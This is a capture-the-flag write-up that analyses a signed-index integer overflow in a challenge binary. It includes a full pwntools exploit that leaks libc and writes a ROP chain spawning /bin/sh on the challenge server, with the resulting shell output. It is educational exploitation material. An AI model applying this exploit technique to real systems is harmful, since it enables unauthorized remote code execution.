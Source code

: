 # X-MAS CTF 2020

## lil wishes db

> 359
>
> I don't want a lot for Christmas!  
> RCE is all I need  
> I don't care about protections  
> Underneath the RSP  
>
> Target: `nc challs.xmas.htsp.ro 2002`
> 
> Author: Th3R4nd0m
> 
> [naughty.zip](naughty.zip)

Tags: _pwn_ _x86-64_ _rop_ _remote-shell_ _integer-overflow_ _write-what-where_


## Summary

Leverage integer overflow to write out ROP chain and get a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.  Nice!


### Decompile with Ghidra

Just the vulnerable sections of code:

Relevant variables:

```c
  int local_6c;
  int local_68;
  undefined local_58 [72];
```

Swap code:

```c  
        if (local_64 == 1) {
          puts("Index 1:");
          scanf("%d",&local_6c);
          puts("Index 2:");
          scanf("%d",&local_68);
          if ((local_6c < 8) && (local_68 < 8)) {
            swap_ids((ushort)local_6c,(ushort)local_68,(long)local_58);
          }
          else {
            puts("Index should not be > 8");
          }
```

This _swap_ section of code will swap any two 8-byte values in array `local_58` (think of this as `ulong local_58[9]`) with index values 0-7.

There's a perfect storm of minor bugs that result in a major vulnerability--RCE.

`scanf("%d",&local_6c)` and `scanf("%d",&local_68)` permit negative values, this allows the `(local_6c < 8) && (local_68 < 8)` check to pass.  Had `local_6c` and `local_68` been `uint`, this vulnerability would have been mitigated.

The `ushort` casts in the statement `swap_ids((ushort)local_6c,(ushort)local_68,(long)local_58)` converts those negative numbers to positive--integer overflow. This overflow permits swaps with index values 0-65535 (2<sup>16</sup> - 1) enabling arbitrary read and write down stack.

The return address is `0x58` bytes from `local_58`, an index of `11` (`0x58 / 8`) will easily allow us to write out a ROP chain.  


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

def swap(p,n):
    p.sendline('1')
    p.sendlineafter('Index 1:\n','0')
    p.sendlineafter('Index 2:\n',str(n-65536))
    p.recvuntil('Option: \n')

def leak(p,n):
    swap(p,n)
    p.sendline('2')
    p.recvuntil('ID[0] =')
    _ = p.recvline().strip()
    swap(p,n)
    return int(_)

def insert(p,n):
    p.sendline('3')
    p.sendlineafter('Index: \n','0')
    p.sendlineafter('Value: \n',str(n))
    p.recvuntil('Option: \n')

def www(p,what,where):
    insert(p,what)
    swap(p,where)
```

These functions make the exploit development a bit easier:

`swap` just frontends the swap code, however we can just pass in `n` and the `n-65536` will create the necessary negative number to enable an index of range from zero to 65535 (see analysis section).

`leak` will call `swap` to _swap_ a value into the `0`th element and use the programs `Print database` code to leak that value, then call `swap` again to, well, _swap_ it back.

`insert` will only set indexes `0-7` since `local_60` is `uint`, IOW we cannot simply call `insert` to write out our ROP chain.

Lastly, `www` is our _write-what-where_ (limited to down stack), `www` simply writes `what` into the `0`th element using the built-in `Insert ID` code, then calls `swap` once to write it to `where`.

```python
binary = context.binary = ELF('./chall')

if args.REMOTE:
    p = remote('challs.xmas.htsp.ro', 2002)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = binary.libc

p.recvuntil('Option: \n')

__libc_start_main = leak(p,0x58 // 8) - 231
libc.address = __libc_start_main - libc.sym.__libc_start_main
log.info('libc.address: ' + hex(libc.address))
```

Before we can write out a ROP chain, we need to know the location of `libc`.  Fortunately the game masters provided the challenge server libc binary.  From this with can use `grep` to find that this is from Ubuntu 18.04 and then dev/test in an Ubuntu 18 container (there are other ways, e.g. `p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH': libpath})`, but I had an Ubuntu 18.04 container handy).

Locally, by setting a break point at `ret`:

```
gef➤  b *0x555555554000 + 0xb4a
Breakpoint 1 at 0x555555554b4a
gef➤  run
Starting program: /pwd/datajerk/xmasctf2020/lil_wishes_db/chall
Wishes database

Choose:
1.Swap IDs
2.Print database
3.Insert ID
4.Exit

Option:
4
```

we can see that the return address is:

```
0x00007fffffffe398│+0x0000: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax	 ← $rsp
```

Using `leak` with an index of `0x58 // 8` (11) we can get the address of `__libc_start_main+231` and compute the base of libc.

```python
rop = ROP([libc])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload = [pop_rdi+1,pop_rdi,libc.search(b'/bin/sh').__next__(),libc.sym.system]

where = 0x58 // 8
for what in payload:
    www(p,what,where)
    where += 1

p.sendline('4')
p.interactive()
```

At this point it's pretty much game over.  All that is required is a `rop rdi` gadget from libc, the location of a `/bin/sh` string and the `system` call, both from libc, and then we just write that down stack starting at `0x58 // 8` (11).

To execute our attack, just send `4` to exit the menu.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/xmasctf2020/lil_wishes_db/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.xmas.htsp.ro on port 2002: Done
[*] '/pwd/datajerk/xmasctf2020/lil_wishes_db/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f813bafc000
[*] Loading gadgets for '/pwd/datajerk/xmasctf2020/lil_wishes_db/libc.so.6'
[*] Switching to interactive mode


Merry Christmas!
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
X-MAS{oh_nooo_y0u_ru1ned_the_xmas}
```

